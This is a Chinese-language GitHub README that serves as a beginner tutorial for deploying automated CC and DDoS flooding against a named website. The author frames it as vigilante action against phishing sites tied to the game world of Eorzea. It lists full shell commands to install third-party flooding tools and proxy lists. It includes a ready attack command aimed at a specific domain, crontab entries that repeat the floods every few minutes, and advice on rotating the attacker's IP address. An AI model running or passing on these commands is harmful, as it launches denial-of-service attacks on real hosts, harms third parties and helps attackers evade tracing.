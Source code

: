 # Nyaa:Automata ![](https://img.shields.io/github/stars/NyaaCaster/HydaelynAttack?style=social)
## 菜鸟级CC+DDOS自动打击部署教程

*制作工具是人类于其他动物的区别……但如何使用工具是人和人的区别……*

## 前言

这只是为了维护艾欧泽亚不受钓鱼诈骗网站干涉而定制的自动打击策略，故很多参数写死定向打击特定网站，虽然根据实际情况，有能力编辑者脚本中最好自己维护打击目标，但请不要滥用于其他途径。

## 环境级工具

- [x] Linux
- [x] Python3
- [x] Python3-pip
- [x] [**Leeon123/CC-attack**](https://github.com/Leeon123/CC-attack)
- [x] [**TheSpeedX/PROXY-List**](https://github.com/TheSpeedX/PROXY-List)
- [x] [**7zx/overload**](https://github.com/7zx/overload)
- [x] [**NyaaCaster/HydaelynAttack**](https://github.com/NyaaCaster/HydaelynAttack)

## linunx系统语法注意
- 如果是ubuntu debian系的系统，命令前缀使用 apt
- 如果是centos redhead系的系统，命令前缀使用 yum
- 如果是非root权限账号，请在上述命令前加 sudo

## 安装环境依赖
```shell
apt update -y
apt install git vim zip python3 python3-pip -y
curl -sSf "https://nyaacaster.github.io/Nyaa-Automata/requirements.txt" > requirements.txt
python3 -m pip install --upgrade pip
pip3 install -r requirements.txt
```

## 安装CC-attack
```shell
git clone https://github.com/Leeon123/CC-attack.git
```

## 获取Proxy-List的socks4和proxy喂料包
```shell
curl -sSf "https://raw.githubusercontent.com/shiftytr/proxy-list/master/socks4.txt" > socks4.txt
curl -sSf "https://raw.githubusercontent.com/shiftytr/proxy-list/master/proxy.txt" > proxy.txt
```
## 安装overload（ddos工具）
```shell
git clone https://github.com/7zx/overload.git
cd overload/
curl -sSf "https://nyaacaster.github.io/Nyaa-Automata/overload_p.py" > overload_p.py
cd ..
```
- overload_p.py这个脚本可以自己打开看一下，里面我把手动输入的变量全部写死了以便当自动脚本使用，目标网址可以根据自己情况调整

## 安装HydaelynAttack（ddos工具，流量开销大，每轮攻击12M，计费流量的自己规划好开销）
```shell
git clone https://github.com/NyaaCaster/HydaelynAttack.git
```

## 如果要单独一次性执行cc
```shell
python3 ~/CC-attack/cc.py -url http://fwe22.top/ -f ~/proxy.txt -v 5 -s 30
```
- 命令中地址自己根据情况调整目标网址

## 如果要单独一次性执行overload
```shell
python3 ~/overload/overload_p.py
```
- 自己修改建立了新脚本后执行自己的就可以

## 如果要单独性执行HydaelynAttack
```shell
python3 ~/HydaelynAttack/HydaelynAttack_p_once.py
```
- HydaelynAttack项目有多个脚本可选，具体看该项目说明


## 部署订制执行计划
```shell
crontab -e
```
- (姑且扫盲一下vim的操作）进入文件后，方向箭移动光标到要修改的地方（这里移动到最末行最末尾）按 i 进入编辑模式

## 插入的计划任务
```shell
*/12 * * * * python3 ~/CC-attack/cc.py -url http://fwe22.top/ -f ~/proxy.txt -v 5 -s 30
*/4 * * * * python3 ~/HydaelynAttack/HydaelynAttack_p_once.py
0 * * * * python3 ~/overload/overload_p.py
```
- 编辑完成后按esc退出编辑
- 英文输入 :qw 保存退出，之后即使重启系统，依然会定时执行
- 时间计划可以自己安排，最好跟我的0 15 30错开，打到交叉打击效果

## 附录：crontab的语法简要说明
```shell
    *    *    *    *    *
    |    |    |    |    |
    |    |    |    |    +----- 星期中星期几 (0 - 6) (星期天 为0)
    |    |    |    +---------- 月份 (1 - 12) 
    |    |    +--------------- 一个月中的第几天 (1 - 31)
    |    +-------------------- 小时 (0 - 23)
    +------------------------- 分钟 (0 - 59)
```

- 每个时间单位的位置都可以写多个值，英文逗号分隔
- 例如：0,5,10 * * * * 这个例子代表每小时的0分 5分 10分各执行一次，合计每小时执行3次
- 更多语法请阅读 [**Linux crontab命令 菜鸟教程**](https://www.runoob.com/linux/linux-comm-crontab.html)（我都看得懂，你一定没问题）

## 如果想便捷的更换打击服务器的ip，可以使用v2ray的linux
-[**v2rayA**](https://v2raya.org/docs/prologue/installation/debian/)
客户端为网页版，可以随时随地访问，不过请自备飞机场

## TODO
- [ ] 把cc打击服务融合到高级触发器中
